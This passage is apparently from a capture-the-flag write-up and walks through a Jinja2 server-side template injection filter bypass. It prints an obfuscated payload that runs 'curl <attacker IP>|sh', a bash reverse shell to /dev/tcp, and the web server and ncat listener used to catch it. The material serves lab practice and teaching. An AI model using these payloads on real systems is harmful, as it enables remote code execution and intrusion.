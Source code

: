  Since the message stated the support portal should be fixed we might be lucky and the blacklist is not implemented fully. `{% raw %}{%{% endraw %}` and `with` seem to be working so we can adapt this [jinja2 obfuscated payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass) from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings).

```
{% raw %}{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}{% endraw %}
```

`Final payload:`

```js
{% raw %}{%25+with+a%3drequest|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl+10\x2e10\x2e14\x2e17|sh")|attr("read")()+%25}{%25+endwith+%25}{% endraw %}
```

This payload bypasses the `.` restriction with `|attr` and `\x2e`.  Also `_` get's replaced by `\x5f`. The payload goes up the tree to python builtins and calls `os.popen("curl ip|sh").read()`.

`Contents of index.html:`
```js
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.17/7575 0>&1"
```

First we set up a python webserver in the directory with `index.html` and a ncat listener on the port we specified.

```js
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```js
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

We then issue a request in Burp repeater with our payload on the support portal.

[![revshell](/img/spider/revshell.png)](/img/spider/revshell.png)
